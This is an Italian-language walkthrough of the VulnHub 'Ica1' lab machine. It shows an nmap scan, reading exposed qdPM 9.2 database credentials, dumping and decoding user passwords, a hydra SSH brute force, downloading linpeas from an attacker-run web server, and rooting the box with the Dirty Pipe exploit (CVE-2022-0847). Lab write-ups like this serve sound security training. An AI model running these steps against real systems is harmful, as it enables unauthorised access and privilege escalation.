

# Ica1 -VulnHub Writeup

## Nmap scan
```bash
nmap -sCV -O iptarget
```
notiamo subito che qdpm 9.2 e' vulnerabile
## qdPM 9.2 - Password Exposure (Unauthenticated) 
copiando questo percorso ci ritroviamo un file .yml con delle credenziali
```bash
http://<website>/core/config/databases.yml
```
user:qdpmadmin
pass:UcVQCMQk2STVeS6J
## mysql
accediamo al database
```bash
mysql -r ip -u qdpmadmin -p --skip-ssl
\g show tables;
\g SELECT * FROM user;
```
copiamo tutti gli utenti che troviamo in un file che chiameremo user.txt
!!!Sostituire le iniziali dei nomi utente con lettere minuscole
la stessa cosa per le password
## identificazione hash
hashes.com ci dice che sono degli hash in Base 64
decodifichiamo con burpsuite nella sezione decode
otteniamo:
```bash
suRJAdGwLp8dy3rF
7ZwV4qtg42cmUXGX
cqNnBWCByS2DuJSy
DJceVy98W28Y7wLg
X7MQkP3W29fewHdC
```
# Bruteforce SSH
```bash
hydra -L user.txt -P pass.txt 192.168.178.183 ssh
[22][ssh] host: 192.168.178.183   login: travis   password: DJceVy98W28Y7wLg
[22][ssh] host: 192.168.178.183   login: dexter   password: 7ZwV4qtg42cmUXGX
```
accesso ssh
```bash
ssh travis@192.168.178.183
cat user.txt
```
# Flag user
## ICA{Secret_Project}

# Privilige Escalation
```bash
cd tmp
```
avviamo un server all'interno della nostra macchina nella cartella di linpeas
```bash
python -m http.server 8000
```
carichiamo il file con l'utilizzo di wget
```bash
wget http://ip:porta/linpeas.sh
```
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh
```
exploit per privilege escalation
## CVE-2022-0847
compiliamolo
```bash
compiliamolo gcc cve -o cve.exe
```
eseguiamolo dando il percorso sudo
```bash
/cve.exe /usr/bin/sudo
id
uid=0(root) gid=0(root) groups=0(root),1001(dexter)
cd root
cat root.txt
```
# Flag root
## ICA{Next_Generation_Self_Renewable_Genetics}